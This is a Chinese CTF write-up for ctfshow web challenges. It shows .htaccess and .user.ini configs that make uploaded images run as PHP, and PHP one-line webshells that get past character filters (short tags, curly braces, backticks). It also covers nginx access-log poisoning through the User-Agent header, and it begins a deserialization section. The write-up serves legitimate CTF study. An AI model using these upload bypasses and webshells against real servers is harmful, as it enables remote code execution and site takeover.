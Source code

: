 ```htaccess
AddType application/x-httpd-php  //将所有文件按照php文件进行解析
AddType application/x-httpd-php .php .phtml .php5 .pht .phps  //将.php .phtml .php5 .pht .phps为后缀的文件按php文件进行解析。
```
- .htaccess的配置文件只能在Apache服务器中起作用  
#### .user.ini文件
是php的全局配置文件，对整个web服务起作用,  
```ini
//在同目录下的其他.php 文件中包含配置中所指定的文件
//二选一即可
auto_prepend_file = 1.png         //包含在文件头
auto_append_file = 1.png          //包含在文件尾
```
### web154-155
过滤了图片马中的`php`，使用短标签可以绕过
```php
<?=eval($_POST['c']);?>
```
### web156
上题的基础上又过滤了`[`和`]`，用`{` `}`代替  
```php
<?=eval($_POST{'c'});?>
```
### web157-158
上题的基础上又过滤了`;`，不写一句话了，直接读文件吧    
```php
<?=system("ls ../")?>
<?=system("cat ../flag*")?>
```
### web159
上题的基础上又过滤了`(`，system也用不了，直接命令执行  
```php
<?=`ls ../`?>
<?=`cat ../flag*`?>
```
### web160
上题的基础上又过滤了空格和`\``  
>对于Apache，日志存放路径：/var/log/apache/access.log    
>对于Ngnix，日志存放路径：/var/log/nginx/access.log 和 /var/log/nginx/error.log    
>Nginx中的日志分两种，一种是error.log，一种是access.log。error.log可以配置成任意级别，默认级别是error，用来记录Nginx运行期间的处理流程相关的信息；access.log指的是访问日志，用来记录服务器的接入信息（包括记录用户的IP、请求处理时间、浏览器信息等   
>
>中间件的日志文件会保存网站的访问记录,比如HTTP请求行,User-Agent,Referer等客户端信息，如果在HTTP请求中插入恶意代码,那么恶意代码就会保存到日志文件中,访问日志文件的时候，日志文件中的恶意代码就会执行,从而造成任意代码执行甚至获取shell。  

先上传`.user.ini`包含`m.png`文件，`m.png`文件的内容如下，然后在User-Agent字段写一句话木马，访问`/upload/index.php`并传入命令   
```php
<?=include"/var/lo"."g/nginx/access.lo"."g"?>
```
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241126222553.png)  
## ctfshow-反序列化
### web254
代码审计  
`?username=xxxxxx&password=xxxxxx`  
### web255
```php
$pop=new ctfShowUser;
$pop->isVip=true;
echo serialize($pop);
```